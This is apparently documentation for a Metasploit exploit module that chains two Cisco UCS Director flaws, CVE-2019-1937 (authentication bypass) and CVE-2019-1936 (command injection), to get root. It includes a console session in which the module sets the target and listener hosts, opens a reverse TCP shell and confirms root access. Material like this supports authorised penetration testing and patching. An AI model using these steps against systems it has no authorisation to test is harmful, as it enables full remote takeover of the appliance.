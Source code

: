 ## Vulnerable Application

The Cisco UCS Director virtual appliance contains two flaws that can be combined
and abused by an attacker to achieve remote code execution as root.

The first one, CVE-2019-1937, is an authentication bypass, that allows the
attacker to authenticate as an administrator.

The second one, CVE-2019-1936, is a command injection in a password change form,
that allows the attacker to inject commands that will execute as root.

This module combines both vulnerabilities to achieve the unauthenticated command
injection as root.
It has been tested with Cisco UCS Director virtual machines 6.6.0 and 6.7.0.
Note that Cisco also mentions in their advisory that their IMC Supervisor and
UCS Director Express are also affected by these vulnerabilities, but this module
was not tested with those products.

## Scenarios

Setup RHOST, LHOST, LPORT and run it!

```
msf exploit(linux/ssh/cisco_ucs_scpuser) > use exploit/linux/http/cisco_ucs_rce
msf exploit(linux/http/cisco_ucs_rce) > set rhost 10.9.8.121
rhost => 10.9.8.121
msf exploit(linux/http/cisco_ucs_rce) > set lhost 10.9.8.1
lhost => 10.9.8.1
msf exploit(linux/http/cisco_ucs_rce) > run

[*] Started reverse TCP handler on 10.9.8.1:4444
[+] 10.9.8.121:443 - Successfully bypassed auth and got our admin JSESSIONID cookie!
[+] 10.9.8.121:443 - Shelly is here, press ENTER to start playing with her!
[*] Command shell session 2 opened (10.9.8.1:4444 -> 10.9.8.121:34778) at 2019-08-29 22:28:01 +0700

[root@localhost inframgr]# whoami
whoami
root
[root@localhost inframgr]# ^C
Abort session 2? [y/N]  y
""

[*] 10.9.8.121 - Command shell session 2 closed.  Reason: User exit
msf exploit(linux/http/cisco_ucs_rce) >
```
